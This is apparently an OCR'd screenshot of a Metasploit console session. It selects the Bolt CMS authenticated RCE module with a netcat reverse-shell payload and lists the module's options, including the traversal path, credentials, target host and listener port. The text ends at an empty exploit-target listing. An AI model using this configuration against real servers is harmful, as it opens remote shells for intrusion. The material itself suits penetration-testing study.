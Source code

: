 ```bash

Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/bolt_file_upload                                                   

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) > options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name               Current Setting    Required  Description
   ----               ---------------    --------  -----------
   FILE_TRAVERSAL_PA  ../../../public/f  yes       Traversal path from "/files
   TH                 iles                         " on the web server to "/ro
                                                   ot" on the server
   PASSWORD                              yes       Password to authenticate wi
                                                   th
   Proxies                               no        A proxy chain of format typ
                                                   e:host:port[,type:host:port
                                                   ][...]
   RHOSTS                                yes       The target host(s), see htt
                                                   ps://docs.metasploit.com/do
                                                   cs/using-metasploit/basics/
                                                   using-metasploit.html
   RPORT              8000               yes       The target port (TCP)
   SSL                false              no        Negotiate SSL/TLS for outgo
                                                   ing connections
   SSLCert                               no        Path to a custom SSL certif
                                                   icate (default is randomly
                                                   generated)
   TARGETURI          /                  yes       Base path to Bolt CMS
   URIPATH                               no        The URI to use for this exp
                                                   loit (default is random)
   USERNAME                              yes       Username to authenticate wi
                                                   th
   VHOST                                 no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```